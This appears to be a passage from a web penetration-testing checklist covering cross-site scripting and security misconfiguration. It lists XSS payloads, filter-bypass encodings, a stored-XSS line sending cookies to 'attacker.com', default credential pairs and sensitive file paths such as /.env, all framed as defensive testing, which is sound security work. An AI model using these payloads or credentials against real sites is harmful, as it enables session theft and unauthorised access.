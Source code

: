 **4. Cross-Site Scripting (XSS)**

**Reflected XSS:**
```html
<!-- Test in search, error messages, URL parameters -->
<script>alert(document.domain)</script>
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<iframe src="javascript:alert(1)">

<!-- Bypass filters -->
<ScRiPt>alert(1)</sCrIpT>
<img src=x onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
```

**Stored XSS:**
```html
<!-- Test in: profiles, comments, messages, file uploads -->
<script>fetch('https://attacker.com?cookie='+document.cookie)</script>

<!-- Persistence checks -->
Update profile bio with: <script>alert(1)</script>
Create comment: <img src=x onerror=alert(1)>
```

**DOM-based XSS:**
```javascript
// Check JavaScript that processes URL fragments
https://example.com/#<script>alert(1)</script>
https://example.com/#<img src=x onerror=alert(1)>

// Tools:
// - DOM Invader (Burp Suite extension)
// - Manual code review of JavaScript
```

**5. Security Misconfiguration**

**Check for:**
```bash
# Default credentials
admin:admin, admin:password, root:root

# Directory listing
https://example.com/uploads/
https://example.com/backups/

# Exposed config files
/.env, /config.php, /web.config, /.git/config

# Debug mode enabled
https://example.com/?debug=true
https://example.com/?XDEBUG_SESSION_START=1

# Verbose error messages
SQL errors, stack traces, framework versions

# Missing security headers
curl -I https://example.com
# Check for: HSTS, CSP, X-Frame-Options, X-Content-Type-Options
```

